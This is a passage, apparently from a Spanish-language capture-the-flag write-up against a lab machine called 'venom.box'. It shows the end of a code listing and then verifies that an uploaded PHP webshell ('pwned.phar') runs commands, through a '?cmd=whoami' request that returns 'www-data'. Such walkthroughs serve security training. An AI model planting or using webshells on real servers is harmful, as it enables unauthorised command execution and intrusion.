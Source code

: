 ```ruby
   3   │ ?>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Con el archivo subido, validar que la webshell es interpretrada abriendo el archivo desde la ruta `http://venom.box/uploads/pwned.phar?cmd=whoami`, y como resultado veremos el nombre del usuario.
```ruby
<pre>www-data
</pre>
```